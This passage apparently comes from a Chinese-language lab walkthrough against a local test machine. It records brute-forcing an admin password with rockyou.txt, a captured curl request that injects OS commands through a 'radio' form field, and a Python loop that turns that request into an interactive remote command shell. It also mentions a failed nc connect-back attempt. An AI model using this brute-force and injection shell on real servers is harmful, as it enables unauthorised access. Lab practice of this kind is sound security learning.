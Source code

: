 经过一系列尝试 发现并没有这种可能 

> 就是利用nc指令来做到 连接我的端口 输出命令执行成功的信息这样

## 成功的密码爆破

就非得让我登陆呗

burp pro的runtime file 模式下

爆破的一些信息

info|detail
---|---
wordlist|rockyou.txt
username|admin
password|happy

然后登陆之后 f12 network 下进行抓包看

我们可以看到

``` bash
$ curl 'http://192.168.31.241/command.php' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \
-H 'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' \
--compressed \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://192.168.31.241' -H 'Connection: keep-alive' \
-H 'Referer: http://192.168.31.241/command.php' \
-H 'Cookie: PHPSESSID=alidntd129mheml2nuvpq649n5' \
-H 'Upgrade-Insecure-Requests: 1' \
--data-raw 'radio=ls+/&submit=Run'
```
## 上一个利用
直接编辑 这个 radio 变量就可以进行远程控制

这里起了一个python脚本来爆破 

（直接调用shell了就不用requests库了 主要原因是懒得调整cookies）

> 就很不优雅!

``` python
import os

while 1:
    youCommand=input("cmd=")
    if youCommand == "end":
        break
    response=os.popen("curl 'http://192.168.31.241/command.php' \
            -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' \
            -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \
            -H 'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' \
            --compressed -H 'Content-Type: application/x-www-form-urlencoded'\
            -H 'Origin: http://192.168.31.241' -H 'Connection: keep-alive' \
            -H 'Referer: http://192.168.31.241/command.php' \
            -H 'Cookie: PHPSESSID=alidntd129mheml2nuvpq649n5' \
            -H 'Upgrade-Insecure-Requests: 1' \
            --data-raw 'radio=%s&submit=Run'" %(youCommand)).read()
    print( response.split("<pre>")[1].split("</pre>")[0] )
    #通过观察返回情况进行 用split方法把返回剥离出来
    #如果用subprocess可能就可以更加优化一波 命令执行的过程
```
